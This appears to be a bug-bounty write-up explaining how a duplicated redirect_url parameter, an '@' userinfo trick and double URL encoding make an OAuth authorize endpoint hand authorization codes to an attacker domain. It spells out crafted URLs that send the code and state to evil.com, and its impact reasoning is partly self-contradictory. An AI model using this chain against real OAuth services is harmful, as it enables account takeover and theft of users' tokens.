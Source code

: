 # Steal the OAuth code or token with an open redirect because of a parameter pollution .

## How:

The application provides a service for third party applications to create an oauth app with it, Lets call our application example.com and the third party one third.com so third.com tells you that you can connect your example.com account with your current account, So inorder to do this the third.com has to ask example.com to make him an oauth application, This is just to demonstrate the feature .

So what happens after you clicking on signin with or connect using example.com, the third.com redirects you to example.com with a request like this ----> 
[GitHub Pages](https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&state=[some value]) , So by visiting this endpoint example.com will ask you to consent third.com then redirects you back to third.com with the oauth code .


So I thought about what will happen if I added another redirect_url parameter like this https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&redirect_url=https://evil.com&state=[some value], By doing this I found that example.com redirects me to third.com but with this intersting way https://third.com/callback/,https://evil.com?code=[some value]&state=[some value], Noticed the  ",http://evil.com", I intercepted the requests after clicking on consent and I have found the app sends the consent request with the two redirect_uri like this redirect_url=https://third.com/callback&redirect_uri=https://evil.com and the response of it is just 200 status code with the code and state in the body of the response.


So I knew that the problem of appending the two redirect_uri is not from the backend code but it's from the client side code, So I thought how can i get an openredirect by this clearly the client code adds the character "," before appending the two redirect_uri like this "=https://third.com/callback,https://evil.com", I thought about removing the https:// part from the second redirect_uri and add a dot charater like this ".evil.com" to make it look like a subdomain but I knew that the subdomain part can't has , or / .


So what about adding @ sign rather than using dot but ofcourse this didn't work also because if you redirected to endpoint like this https://third.com/callback/,@evil.com it won't redirect you to evil.com, So what is about encoding, If tou tried to paste this in a browser admin@evil.com you will see that a browser like firefox treats the first part befor @ as a user name so it's like conecting to a server using ssh if you tried it before, So leave the second redirect_uri with a value like this @evil.com and double encode the special characters in the first redirect_uri like this https://third.com%252Fcallback%252F .


Why double encode it? because, If you redirected to an endpoint like this https://third.com%2Fcallback%2F,@evil.com you will see that the browser translates %2F to / and still redirects you to third.com so to come across this, encode the / two times so that the first time the browser decode it %2F but the second time it won't decode it to / so that the final redirection will be like this https://third.com%2Fcallback%2F,@evil.vom?code=[some code]&state=[some state] and you will be redirected to evil.com with the oauth code and you succedded to steal the oauth code.


So where is the problem? at the backend however that it recieves the first redirect_uri like this https://third.com%252Fcallback%252F but what it does is that it double decodes it then validate it against the stored value and ofcourse it will be true so it will return the oauth code, but if it didn't double decode it won't be true so even if the user redirected to evil.com he won't be redirected with the oauth code so the impact is low .

Ehat is the impact? the impact is high this application provides oauth apps to third party applications so every third party application is affected by it, It can lead to account takeover or sensitive data leak .


